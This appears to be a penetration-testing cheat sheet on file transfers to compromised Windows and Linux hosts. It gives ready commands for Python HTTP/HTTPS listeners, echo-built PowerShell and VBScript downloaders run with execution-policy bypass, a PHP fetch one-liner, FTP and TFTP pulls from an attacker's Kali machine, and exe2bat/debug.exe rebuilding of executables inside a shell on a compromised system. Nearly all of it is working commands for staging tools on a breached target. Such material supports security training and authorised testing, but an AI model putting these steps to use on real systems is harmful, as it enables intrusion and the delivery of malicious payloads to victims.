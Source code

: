 # File Transfers

## Table of Contents
* [wget](#wget)
   * [Listener (Python)](#listener-python)
      * [HTTP](#http)
      * [HTTPS](#https)
   * [Powershell wget](#powershell-wget)
   * [VBScript wget](#vbscript-wget)
   * [PHP wget](#php-wget)
* [FTP](#ftp)
* [TFTP](#tftp)
* [debug.exe](#debugexe)


## wget

### Listener (Python)

#### HTTP
```
python -m SimpleHTTPServer 80
```
```
python3 -m http.server 80
```

#### HTTPS
[SimpleHTTPSServer.py](SimpleHTTPSServer.py) script (Python 2 only).

Requires SSL/TLS certificate (server.pem):
```
openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
```

##### Usage
```
python SimpleHTTPSServer.py 443
```


### Powershell wget
Create [Powershell wget script](wget.ps1) on target system via "echo" commands, then execute to download files.

#### Create script on target system
```
echo param ([String]$url="",[String]$outfile="")>> wget.ps1
echo If($url -eq "") { $sn = $MyInvocation.MyCommand.Name; Write-Host "Usage: $sn -url [URL] [-outfile [FILENAME]]"; Exit }>> wget.ps1
echo If($outfile -eq "") { [array]$ss = $url.split("/"); $outfile = $ss[$ss.Count-1] }>> wget.ps1
echo $storageDir = $pwd>> wget.ps1
echo $webclient = New-Object System.Net.WebClient>> wget.ps1
echo $webclient.DownloadFile($url,$outfile)>> wget.ps1
```

#### Usage
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1 -url [URL] [-outfile [FILENAME]]
```

#### Options
```
-url [URL]: Download file from [URL] url
-outfile [FILENAME]: Save downloaded file to [FILENAME] (optional)
```


### VBScript wget
Create [VBScript wget script](wget.vbs) on target system via "echo" commands, then execute to download files.

#### Create script on target system
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

#### Usage
```
cscript wget.vbs [URL] [FILENAME]
```

#### Options
```
[URL]: Download file from [URL] url
[FILENAME]: Save downloaded file to [FILENAME]
```

### PHP wget
```
<?php file_put_contents("[LOCAL_FILENAME]", fopen("[URL]", 'r')); ?>
```


## FTP
FTP transfers are not simple to initiate. They should mostly be used on Windows targets when other methods are not available.

FTP transfers are conducted using [non-interactive FTP scripts](ftp.txt).

### Start FTP Server (pure-ftpd) on Kali
```
systemctl start pure-ftpd
```

### Create non-interactive script on target system (replace [KALI_IP], [FTP_USER], [FTP_PASSWORD], and [FILE] accordingly)
```
echo open [KALI_IP] 21> ftp.txt
echo USER [FTP_USER]>> ftp.txt
echo [FTP_PASSWORD]>> ftp.txt
echo bin>> ftp.txt
echo GET [FILE]>> ftp.txt
echo bye>> ftp.txt
```

### Download file with FTP from compromised Windows system
```
ftp -v -n -s:ftp.txt
```


## TFTP
While TFTP file transfers are easy to initiate, they can be PAINFULLY slow. Therefore, other transfer methods should be used if they are available.

### Start TFTP server (atftpd) on Kali (hosted files located in /home/tftp)
```
atftpd --logfile=/var/log/atftpd.log --daemon --port 69 /home/tftp/
```

### Download file with tftp from compromised system
```
tftp -i [KALI_VM_IP] get [FILENAME]
```


## debug.exe
Limited to 32-bit Windows systems, and file sizes up to 64KB. Therefore, this is not a preferred file transfer method if easier/faster methods are available.

### Generic procedure
* Compress exe file with upx
* Convert exe to batch file using exe2bat
* Copy output into shell on compromised system

### upx
Compress executables for easier transfer via debug.exe.

#### Options
```
-o [FILE]: output compressed executable to [FILE]
-9: compress as much as possible
```

### exe2bat
Convert exe files into batch files containing many "echo" commands before a "debug.exe" command

Intented to be pasted into a shell on a compromised system, and will re-create the original .exe file

```
wine /usr/share/windows-binaries/exe2bat.exe [IN_EXE] [OUT_BAT]
```

